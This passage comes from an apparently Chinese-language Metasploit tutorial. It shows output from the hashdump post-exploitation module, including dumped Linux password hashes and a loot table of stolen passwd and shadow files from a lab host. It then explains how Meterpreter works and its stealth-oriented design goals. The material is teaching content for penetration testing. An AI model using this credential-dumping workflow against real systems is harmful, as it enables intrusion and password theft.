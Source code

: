 ```shell
[+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
[+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
[*] Post module execution completed



msf  post(hashdump) > loot

Loot
====

host            service  type          name                   content     info                            path
----            -------  ----          ----                   -------     ----                            ----
172.16.194.172           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
172.16.194.172           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.passwd_953644.txt
172.16.194.172           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.shadow_492948.txt
```


### Meterpreter

Meterpreter 是一套高级、动态、可扩展的攻击载荷，用于内存DLL注入 stagers，并且可以实时地通过网络扩展。它通过一个 stager socket 进行通信，并提供一个综合的 客户端 RUBY api。

#### Meterpreter工作原理

- 攻击目标执行初始的 stager 代码，通常为：bind、reverse、findtag、passivex 等等；
- 这个 stager 代码调用含有反射性的DLL，反射性 stub 控制着这个DLL 的调用或注入；
- Meterpreter 核心初始化，经过 socket ，发送一个GET 请求，建立一个 TLS/1.0 连接；
- Metasploit 收到这个 GET 请求，并配置这个客户端；
- 最后，Meterpreter 调用扩展模块。如果模块有管理员权限时，它将调用 stdapi 和 priv。所有这些扩展将使用TLV 协议由 TLS/1.0 调用。

#### Meterpreter的设计目标

- 隐蔽性
  - 内存驻留、无磁盘操作
  - 无进程生成
  - 默认使用加密通信
  - 有限的痕迹和影响
- 功能性
  - 利用了信道通信系统
  - TLV协议受限小
- 扩展性
  -  实时可配置、可加载
  -  网络调用
  -  可增加新的功能
#### Meterpreter 命令
